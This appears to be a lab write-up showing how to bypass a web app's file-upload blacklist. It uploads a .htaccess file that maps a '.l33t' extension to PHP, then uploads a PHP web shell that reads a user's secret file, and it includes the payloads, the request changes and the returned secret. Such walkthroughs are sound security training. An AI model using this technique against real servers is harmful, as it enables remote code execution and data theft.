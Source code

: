 # Login
![1_0](01.png)
We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering

![2_0](02.png)

We can upload the image file under Avatar lable.


We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```

![3_0](03.png)

From the image, There is file restiction to upload. Now we have to create an executable file to execute via web shell and bypass it.

# Exploit

![4_0](04.png)


Using Burpsuite intercept the upload POST request. Using HTTP History filters add images and You can observe our request has been fetched using GET request **/files/avatars/'your-image'**. Send this request to Repeater.

![5_0](05.png)

In HTTP history, you can fing a POST request **/my-account/avatar** which is used to upload the file.

![6_0](06.png)

Now you have to make some changes to the request to bypass the blacklist restrictions.
    1] Change filename parameters sus.php to .htaccess
    2] Change Content-Type header to text/plain
    3] Replace the content of the file: AddType application/x-httpd-php .l33t

```bash
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain
```

[.l33t](https://thibaud-robin.fr/articles/bypass-filter-upload/) 
This maps an arbitrary extension to the executable MIME type application/x-httpd-php. As the server uses the mod_php module, it knows how to handle this already.

We got successfully uploaded after sending the request.

![7_0](07.png)

Now we have to return to the orginal request of uploading your php exploit using back arrow in repeater.

Now change the filename parameter form **sus.php** to **sus.l33t** and send the request again. 

We can notice file was uploaded successfully.

![8_0](08.png)

Again switch to the tab which is containg GET request **/files/avatars/sus.l33t** and send the request.
```bash
akAmIgdkf1u17jW5osmlBm19uY0VS1KA
```
Carlos's secret was retuned in the response.
